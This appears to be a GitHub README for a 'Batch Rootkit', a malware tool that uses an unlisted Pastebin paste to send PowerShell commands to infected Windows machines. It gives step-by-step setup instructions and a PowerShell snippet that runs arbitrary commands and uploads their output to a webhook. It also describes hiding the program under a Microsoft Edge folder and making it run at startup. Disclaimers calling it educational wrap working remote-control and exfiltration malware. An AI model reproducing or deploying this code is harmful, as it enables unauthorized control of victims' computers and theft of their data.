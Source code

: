 # Batch Rootkit

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**

> __Warning__ 
> **The distribution of this computer virus onto computers other than one's own is a criminal offense, and such action is strictly prohibited.**

> __Warning__ 
> **ITS EDUCATION PURPOSES ONLY**

## Contact
In case you require any assistance with my project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin to control computer powershell. Nowadays, the code can be easily removed, and the link to Pastebin and commands can be readily accessible.

## How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To use cmd commend use ```cmd /c```  to use powershell commend just use your commend without ```cmd /c```
6. Save your paste
7. Press raw button
8. Copy link
9. Paste this link into batch code
10. Change name of rootkit.bat to anything you want
11. Done
12. Now application will run on startup and will be stored in %localappdata%/Microsoft Edge

## Rules
**IMPORTANT: ITS ROOTKIT SOFTWARE**
1. This software is a rootkit intended solely for educational purposes. Using, distributing, or modifying this software in a manner that violates applicable laws is strictly prohibited.
2. Rootkit software is potentially harmful and infringes upon the privacy, security, and rights of computer users. Using this software to gain unauthorized access to systems, carry out attacks, steal data, or engage in any other illegal activities is unlawful and unethical.
3. The creators and contributors of this rootkit software do not endorse or support any illegal or malicious use of the software. The use of this software is entirely at your own risk, and you assume full responsibility for any consequences that may arise from its use.
4. By using or accessing this rootkit software, you agree to abide by all applicable laws and regulations. The creators and contributors of this software are not liable for any damages or legal repercussions resulting from the use or misuse of this software.
5. Please ensure that you use this software responsibly and ethically, respecting the privacy and security of others.
6. BY DOWNLOADING THIS MALWARE YOU ACCEPT ALL RULES
